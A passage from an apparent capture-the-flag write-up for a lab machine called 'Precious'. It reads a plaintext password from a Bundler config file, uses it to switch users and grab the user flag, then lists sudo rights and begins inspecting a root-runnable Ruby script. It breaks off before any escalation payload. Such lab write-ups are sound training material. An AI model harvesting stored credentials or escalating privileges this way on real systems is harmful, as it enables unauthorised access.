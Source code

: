 Let's move to that directory and let's check its content:

```zsh
ruby@precious:~$ cd .bundle
ruby@precious:~/.bundle$ ls -la
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .
drwxr-xr-x 4 ruby ruby 4096 May 19 12:53 ..
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
ruby@precious:~/.bundle$ cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~/.bundle$ 
```

Ok, very easy, so here we can see a user called `henry` with a password. Because this is an easy machine, it's pretty obvious that this is a valid system credential:

```bash
ruby@precious:~/.bundle$ su henry
Password: 
henry@precious:/home/ruby/.bundle$ cd
henry@precious:~$ whoami
henry
henry@precious:~$ cat user.txt
1***************************9
henry@precious:~$ 
```

NICE!! We can read the user's flag :D

## Privilege escalation

- - -

As always, for this step the first thing we need to do is to run `sudo -l` to see what commands we can run as root:

```bash
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
henry@precious:~$ 
```

Ok, analizing this, we can deduce that we can execute the `/opt/update_dependencies.rb` file as root, so let's see what's going on with that file:

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
```